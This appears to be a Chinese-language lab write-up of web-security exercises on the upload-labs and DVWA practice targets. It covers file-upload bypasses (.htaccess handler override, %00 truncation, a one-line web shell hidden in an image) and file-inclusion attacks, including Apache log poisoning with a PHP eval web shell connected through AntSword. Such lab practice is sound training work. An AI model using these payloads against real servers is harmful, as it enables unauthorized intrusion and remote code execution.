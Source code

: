 ## 1.文件上传

- 客户端绕过练习。

  浏览器按F12打开控制台，再按F1禁用JS代码

  浏览器控制台直接删掉前端form标签的事件

  先上传符合白名单格式的文件类型，然后用burp抓包改成php文件即可绕过限制

- 服务端黑名单绕过：.htaccess 文件绕过。

  使用.htaccess文件前提条件
  1.mod_rewrite模块开启
  2.AllowOverride All

  

  首先将.htaccess文件上传，使当前目录所有的文件都用php解析，内容如下

  <FilesMatch "s.jpg">
  Sethandler application/x-httpd-php
  </FilesMatch>

  <IfModule mime_module>
  SetHandler application/x-httpd-php
  </IfModule>

  之后再上传s.jpg即可绕过限制

- 服务端白名单绕过：%00 截断绕过，要求虚拟机中搭建实验环境，分别实现 GET、POST 方法的绕过。

  GET 搭建好环境之后先上传文件s.jpg，然后用burp抓包，在upload后面添加1.php%00即可上传成功

  ![1](1.png)

  ![2](2.png)

  POST 先上传文件s.jpg，然后用burp抓包，在upload后面添加2.php%00，同时对%00进行URL解码，即可上传成功

  ![3](3.png)

  ![4](4.png)

- 二次渲染绕过。

  首先选择gif类型的图片，上传之后，将二次渲染的图片下载下来，在010Editor将上传前后的图片进行比对。找到二次渲染没有变动的位置，添加一句话木马然后上传，复制图片链接，用蚁剑连接打开，成功getshell

![5](5.png)

## 2.文件包含

- DVWA 环境下包含其他目录的任意 3 个文件，要求使用相对路径。

![6](6.png)

![7](7.png)

![8](8.png)

- 远程文件包含。

将s.txt绕过限制，上传到upload-labs，复制图片链接，在dvwa靶场page后粘贴链接访问即可完成远程文件包含

![9](9.png)

- 中间件日志包含绕过，要求使用蚁剑连接成功。

先进行对文件夹和目录的提权

![10](10.png)

然后在dvwa靶场page后访问<?php eval(@$_POST['a']);?>   用burp抓包，将URL编码修改为原字符

在dvwa靶场page后访问/var/log/apache2/access.log，复制链接和cookie，连接蚁剑

![11](11.png)

